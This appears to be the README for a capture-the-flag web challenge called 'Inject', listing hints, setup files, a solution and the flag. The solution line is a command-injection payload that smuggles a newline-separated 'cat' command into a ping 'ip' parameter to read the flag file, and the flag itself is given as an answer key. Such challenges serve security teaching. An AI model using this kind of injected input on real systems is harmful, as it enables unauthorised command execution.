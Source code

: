 # Inject

## Question Text

Ping... Ping... Ping... 
Find the flag at /flag :D

*Creator - @Coldspot

### Hints (Optional)
1. Look up regex modifiers
2. Glob Glob Glob


## Setup Guide
1. Upload index.php

## Distribution
- index.php

## Solution
1. ip=%0Acat fla*.txt%0A127.0.0.1

### Flag
`HNF{y0u_f0und_me}`

## Recommended Reads
